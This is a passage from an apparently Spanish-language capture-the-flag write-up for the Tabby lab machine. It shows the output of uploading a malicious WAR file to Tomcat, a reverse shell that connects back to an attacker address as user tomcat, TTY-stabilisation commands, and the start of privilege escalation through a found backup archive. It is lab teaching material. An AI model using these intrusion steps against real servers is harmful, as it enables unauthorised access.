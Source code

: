 ```
Payload size: 1094 bytes
Final size of war file: 1094 bytes

[!] Uploading WAR File...
OK - Deployed application at context path [/revshell]

[!] Triggering Reverse Shell...

[+] Starting Listener...
listening on [any] 8090 ...
connect to [10.10.16.23] from megahosting.htb [10.129.182.100] 58122
whoami
tomcat
```

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`, lo primero es `obtener` las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
## Privilege Escalation

He encontrado un `backup` cuyo `propietario` es `ash`

```
tomcat@tabby:/var/www/html/files$ ls -la
total 36
drwxr-xr-x 4 ash  ash  4096 Aug 19  2021 .
drwxr-xr-x 4 root root 4096 Aug 19  2021 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16  2020 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Aug 19  2021 archive
drwxr-xr-x 2 root root 4096 Aug 19  2021 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16  2020 statement
```
